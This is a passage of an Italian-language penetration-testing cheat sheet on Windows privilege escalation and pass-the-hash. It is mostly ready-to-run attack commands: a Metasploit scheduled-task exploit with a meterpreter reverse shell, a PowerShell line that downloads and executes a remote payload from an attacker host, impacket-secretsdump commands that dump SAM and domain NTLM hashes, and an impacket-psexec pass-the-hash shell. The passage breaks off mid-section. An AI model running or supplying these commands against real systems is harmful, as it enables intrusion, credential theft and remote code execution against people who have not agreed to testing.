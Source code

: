 
## Scheduled Task

Specifico exploit di Metasploit

```bash
sudo msfconsole

use exploit/windows/local/scheduled_task

set payload windows/x64/meterpreter/reverse_tcp

set LHOST <IP>

set LPORT <PORT>

run
```

Posso anche abusare di un *task* già esistente legato all’amministratore per elevare i miei privilegi dopo aver ottenuto una sessione meterprter su una macchina target senza privilegi

```bash
meterpreter > run schtaskabuse -t "<NomeDelTask>" -c "powershell -Command 'IEX (New-Object Net.WebClient).DownloadString(\"http://<IP>/payload.ps1\")'"
```

---

## Pass-the-hash

Se abbiamo compromesso un utente con privilegi, possiamo estrarre gli hash mediante un dumping

```bash
impacket-secretsdump <DOMAIN>/<user>:<'PASSWORD'>@IP
```

Se otteniamo l’hash dell’amministratore, possiamo eseguire nuovamente il comando per ottenere il sam dump completo

```bash
imapacket-secretsdump administrator@<IP> -hashes <HASH>
```

Se vogliamo solo l’hash NTLM del DC possiamo eseguire

```bash
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP> -just-dc-ntlm
```

Infine, possiamo tentare di ottenere una shell mediante un *pass-the-hash* senza necessità di crackare gli hash

```bash
impacket-psexec administrator@<IP> -hashes <ADMIN_HASH>
```

oppure

